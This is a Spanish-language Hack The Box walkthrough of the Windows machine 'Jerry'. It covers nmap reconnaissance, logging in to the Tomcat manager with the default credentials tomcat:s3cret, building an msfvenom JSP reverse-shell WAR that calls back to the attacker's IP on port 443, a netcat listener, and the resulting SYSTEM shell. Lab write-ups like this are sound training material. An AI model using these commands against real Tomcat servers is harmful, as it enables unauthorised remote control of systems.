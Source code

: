 ```yaml
---
title: Jerry
date: 2024-07-23 21:00:00 +0800
author: Justice-Reaper
categories:
  - Hackthebox
  - Windows
tags:
  - Information Leakage
  - Abusing Tomcat
image:
  path: /assets/img/Jerry/Jerry.png
---
```


## Skills

- Information Leakage
- Abusing Tomcat [Intrusion & Privilege Escalation]
  
## Certificaciones

- eJPT

## Descripción

`Jerry` es una máquina `easy windows`, hay un tomcat por el `puerto 8080`, usando las `credenciales` por `defecto`accederemos a `/manger/html` donde subiremos un `.war` malicioso que usaremos para ganar `acceso` a la máquina víctima como usuario `Administrator`

---
## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `windows` suele ser `128`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.191.206
PING 10.129.191.206 (10.129.191.206) 56(84) bytes of data.
64 bytes from 10.129.191.206: icmp_seq=1 ttl=127 time=165 ms
64 bytes from 10.129.191.206: icmp_seq=2 ttl=127 time=131 ms
^C
--- 10.129.191.206 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 131.328/148.125/164.923/16.797 ms
```
### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -Pn -n -v 10.129.191.206 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:29 CEST
Initiating SYN Stealth Scan at 18:29
Scanning 10.129.191.206 [65535 ports]
Discovered open port 8080/tcp on 10.129.191.206
Completed SYN Stealth Scan at 18:29, 26.38s elapsed (65535 total ports)
Nmap scan report for 10.129.191.206
Host is up (0.061s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.44 seconds
           Raw packets sent: 131089 (5.768MB) | Rcvd: 21 (924B)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 8080 10.129.191.206 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 18:30 CEST
Nmap scan report for 10.129.191.206
Host is up (0.059s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds
```
### Web Enumeration

Cuando accedemos a `http://10.129.191.206:8080` vemos lo siguiente

![](/assets/img/Jerry/image_1.png)

Cuando intentamos acceder a `/manger/html` nos aparece este panel de `login`

![](/assets/img/Jerry/image_2.png)

Al usar un `listado` de `credenciales` por `defecto` que podemos encontrar en [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials) ganamos acceso con las credenciales `tomcat:s3cret`

![](/assets/img/Jerry/image_3.png)
## Intrusión

Creamos con `msfvenom` un archivo `.war` para ganar acceso a la máquina víctima

```
# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.16 LPORT=443 -f war -o revshell.war  
```

`Subimos` el archivo `.war malicioso`

![](/assets/img/Jerry/image_4.png)

Nos ponemos en `escucha` mediante `netcat` en el `puerto 443`

```
# nc -nlvp 443
```

Hacemos `click` sobre el `archivo`, lo que nos llevará a `http://10.129.191.206:8080/revshell/` ejecutándose y enviándonos una `reverse shell` a nuestro equipo

![](/assets/img/Jerry/image_5.png)

Ganamos acceso al equipo como `nt authority\system`

```
# nc -nlvp 443      
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.191.206] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
